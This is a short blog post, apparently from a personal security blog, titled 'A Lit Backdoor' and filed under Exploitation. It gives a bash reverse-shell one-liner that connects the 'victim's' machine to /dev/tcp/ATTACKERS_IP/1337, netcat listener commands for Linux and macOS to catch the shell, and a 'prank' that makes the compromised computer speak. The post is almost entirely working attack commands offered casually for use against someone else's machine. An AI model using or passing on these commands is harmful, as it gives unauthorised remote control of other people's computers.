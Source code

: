 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of MacBooks. Being a penguin user for so long, you learn to stop worrying and love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)

----

**Aloha, bt3**